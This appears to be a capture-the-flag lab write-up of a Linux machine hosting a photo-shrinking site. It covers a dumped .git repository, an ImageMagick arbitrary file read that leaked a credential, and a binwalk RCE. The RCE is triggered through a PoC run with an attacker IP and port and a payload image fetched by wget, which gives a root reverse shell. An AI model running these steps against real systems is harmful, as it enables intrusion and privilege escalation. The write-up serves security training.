








## 1. Reconnaissance

### 1.1 Nmap

An Nmap scan was run against the target. We got `ssh` and `http`.



---

## 2. Web Application Enumeration

### 2.1 Landing Page & Registration

Browsing to the web service revealed a photo-shrinking application with a registration/login flow.


### 2.2 Image Upload Functionality

The core feature of the application was an image upload form that resized submitted images.


An empty `.txt` file and an empty `.png` were rejected by upload validation, but a genuine JPEG was accepted and processed.

---

## 3. Initial Foothold — Exposed `.git` Repository

### 3.1 Discovery

Further enumeration identified an exposed `/.git/` endpoint.



### 3.2 Dumping the Repository

Using the [<u>git-dumper tool</u>](https://github.com/arthaud/git-dumper), the repository was successfully cloned without authentication.


### 3.3 Source Review

Review of the dumped source suggested a possible SQL injection point.



This was investigated and ruled out as not directly exploitable as it uses a prepared statement with `?` placeholders. User input is treated as data, not executable SQL. The source also indicated that passwords were likely stored without strong hashing, and a commit was found attributed to a user named **emily**.


---

## 4. Exploiting ImageMagick

### 4.1 Identifying the Component

The recovered source confirmed that uploaded images were processed via the `ImageMagick` binary, wrapped by the `Bulletproof` PHP upload library (v4.0.0). No public exploits were available for Bulletproof itself.


### 4.2 Arbitrary File Read CVE

Several ImageMagick PoCs were tested, including an arbitrary file read PoC, which works!




We can successfully read `/etc/passwd`.

`/etc/shadow` and `id_rsa` were not readable.

### 4.4 Database Access

Enumeration of the web directory using the file-read primitive led to the application's database, from which a password was recovered.


---

## 5. Initial Shell

The recovered credential was used to gain SSH access to the target.



---

## 6. Privilege Escalation

### 6.1 Enumeration

`sudo -l` returned nothing usable. 

`linpeas.sh` was run to identify further vectors.




### 6.2 Vulnerable `binwalk` RCE

Enumeration identified **`binwalk`**, that allowed for a crafted file to trigger an RCE, returning a reverse shell.


The RCE advisory tells us that if the **`binwalk`** binary is run using the `-e` flag, then we can exploit it. Luckily for us, that is the case.

### 6.3 Exploiting `binwalk`

We can copy the [<u>PoC</u>](https://www.exploit-db.com/exploits/51249) and run it using any existing png file as a template for the payload.

```bash
python3 cve.py img.png 10.10.14.18 9001
```

The script spit out a file called `binwalk_exploit.png` with our payload inside. Once this file is picked up by the **`malware_scan.sh`** script, it will trigger the payload.

So we can start a python server and serve it up to the target.

```bash
# on our host machine
python -m http.server -p 80

# on the target machine
cd /var/www/pilgrimage.htb/shrunk
wget 10.10.14.18/binwalk_exploit.png
```

### 6.4 Root

Following the upload of the png, we have a reverse shell as root.



---

## 7. Summary

| Stage | Technique |
|---|---|
| Recon | Nmap identified SSH and HTTP |
| Enumeration | Photo-shrinking web app with registration/login and image upload |
| Initial Disclosure | Exposed `/.git/` dumped via git-dumper; ruled-out SQLi; recovered commit from `emily` |
| Vulnerability ID | Image uploads processed by vulnerable ImageMagick version (via Bulletproof wrapper) |
| Exploitation | Arbitrary file read CVE → `/etc/passwd` → application database → recovered credential |
| Initial Access | SSH login with recovered credential |
| Privilege Escalation | Vulnerable `inotifywait` (3.14) feeding a `binwalk` RCE → root |

### Key Takeaways
- Exposed `.git` directories remain a critical information disclosure risk, leaking source code, suspected vulnerabilities, and commit history.
- Weak or unsalted password storage in application databases turns any database read primitive into a credential leak.
- Outdated utilities used in automated file-processing pipelines (`inotifywait`, `binwalk`) can chain together into a root-level RCE when run with elevated privileges.
